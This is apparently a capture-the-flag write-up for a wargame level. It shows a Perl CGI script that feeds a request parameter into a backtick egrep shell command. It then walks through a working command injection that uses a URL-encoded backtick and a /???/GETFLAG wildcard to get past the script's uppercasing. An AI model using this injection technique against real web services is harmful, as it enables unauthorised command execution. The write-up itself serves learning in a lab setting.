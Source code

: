 # foothold

I also have some info for this user from the initial emumeration.

We know this user has an apache site, and a `/var/www/level12` directory.

I also see a `level12.pl` file on the home.

A quick diff of `/var/www/level12/level12.pl` and `~/level12.pl` reveals that,
indeed, they are the same file.

I open it and found some weird perl stuff. I hate perl...

Here the code for reference:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

We can see the code call the `t()` function, and `n()` will print one or two
dots depending on the result.

`n()` seems dumb, so the exploit must be in `t()`.

At first sight is easy to notice that `t()` is running a shell command, let's
try to inject.

# exploit

Some tricky command injection, not everything in bash are the letters:
```bash
# Create the file so 'egrep' doesn't fail
touch /tmp/xd

# Wildcard
echo -ne '#!/bin/bash\ngetflag > /tmp/uwu\n' > /tmp/GETFLAG
chmod 777 /tmp/GETFLAG
curl -v http://localhost:4646?x=%60%2F%3F%3F%3F%2FGETFLAG%60&y=
# curl -v http://localhost:4646?x=/???/GETFLAG&y=
```

And that's the flag.

It took me I while to realize, I was alerady on the path of creating a script
with an upper case file name, but I was strugling thinking how to execute it,
until I decided to `man ascii` and check what symbols I had available for use.
